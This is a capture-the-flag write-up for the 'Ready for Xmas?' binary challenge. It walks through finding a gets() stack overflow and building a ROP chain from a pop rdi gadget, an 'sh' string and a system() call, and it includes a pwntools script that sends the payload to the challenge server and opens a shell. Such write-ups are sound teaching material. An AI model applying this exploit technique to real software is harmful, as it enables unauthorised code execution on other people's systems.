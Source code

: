 Ready for Xmas?
===============

Solved by: Dayton Hasty ([dayt0n](https://github.com/dayt0n))
-------------------------------------------------------------

Challenge Description
---------------------

```
Are you ready for aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/bin/shawhkj\xffwaa ?
```

Process
-------

I started out by running `checksec` on the binary:

![checksec](checksec.png)

No stack canary, no code address randomization, but a non-executable stack screams return oriented programming (ROP).

After seeing this, I opened the executable in BinaryNinja. I scrolled down looking through the program's functions and noticed one notable function with no cross-references anywhere else in the code, which I renamed `do_system_call()`:

![system call](system_call.png)

The fact that a `system()` call is already in the code means we may not have to mess with anything having to do with [libc](https://stacklikemind.io/ret2libc-aslr).

Continuing to scroll down, the `main()` function is finally found:

![main](main_func.png)

For now, ignore the `lock_bit` check.

The data at `cat_flag_str` is as follows:

![cat flag str](cat_flag.png)

This string is in the program memory at the beginning of the program, but it is quickly zeroed out by a `memset()` call that sets the entire string to `NULL` bytes. Because it is zeroed out, it can't be used as the string to pass to a `system()` call in a ROP chain.

After asking the user how they are doing, the program gives the user the option to input an answer. This answer, however, is obtained using an unsafe `gets()` call, which reads in data from `stdin` without limiting the size of the data. The variable that will hold the inputted data is `var_48`, which, according to the variable listing at the beginning of the `main()` decompilation, is only `0x48 - 0x8 = 0x40` (64) bytes long. 

The catch, however, is that the payload cannot contain the strings 'sh' or 'cat'. If it does, the `lock_bit` from before is changed and has `mprotect()` run on it, which kind of messes up the stack and registers so a payload would be stopped in its tracks. 

To avoid all of this, we could just use the 'sh' or 'cat' string checking to our advantage. Since this is a ROP challenge, all we would have to do is get the location of `sh_str` onto the stack and then call the previously found `system()` function. 

Because we still need to overwrite the base pointer (`rbp`), the filler data for the payload will be `0x40 + 0x8 = 0x48` (72) bytes long.

The next piece of the payload we would need is the address of a `pop rdi; ret` instruction pair since the next piece of data will be the address of `sh_str` and we need to get that onto the stack for the `system()` call.

Using [radare2](https://github.com/radareorg/radare2), we can quickly find an address of `pop rdi; ret`:

![pop rdi](pop_rdi_addr.png)

So in this case, our `pop rdi; ret` gadget address would be `0x4008e3`. 

Next, we need the address of `sh_str`, which can be found in BinaryNinja:

![sh str](sh_str.png)

Now we know to use `0x400944` as the next piece of the payload.

The final component of the payload will be the address of the `call system()` instruction, which can be found in the disassembly of `do_system_call()`:

![call system](system_call_location.png)

The final address for the ROP chain will then be `0x40077a`.

For a final overview, our payload should now look like this:

```
_______________________________________________________________________________
|  0x48 filler 'A's  |  addr: pop rdi  |  addr: sh_str  |  addr: call system  |
-------------------------------------------------------------------------------
```

I ultimately used a python script with [pwntools](https://github.com/Gallopsled/pwntools) to create and send the final payload:

```python
from pwn import *

first_output = 'Hi. How are you doing today, good sir? Ready for Christmas?\n'

p = remote('challs.xmas.htsp.ro',2001) # connect to remote server
p.recvuntil(first_output) # wait for prompt

system_function = 0x0040077a # address of 'call system'
pop_rdi = 0x004008e3 # address of 'pop rdi; ret'
sh_str  = 0x00400944 # address of 'sh' string

payload = b'A'*0x48 + p64(pop_rdi) + p64(sh_str) + p64(system_function) 

p.sendline(payload) # send payload
p.interactive()     # allow user to execute commands on remote server
```

After running the above script, it is possible to retrieve the flag:

![flag](flag.png)

Flag: `X-MAS{l00ks_lik3_y0u_4re_r3ady}`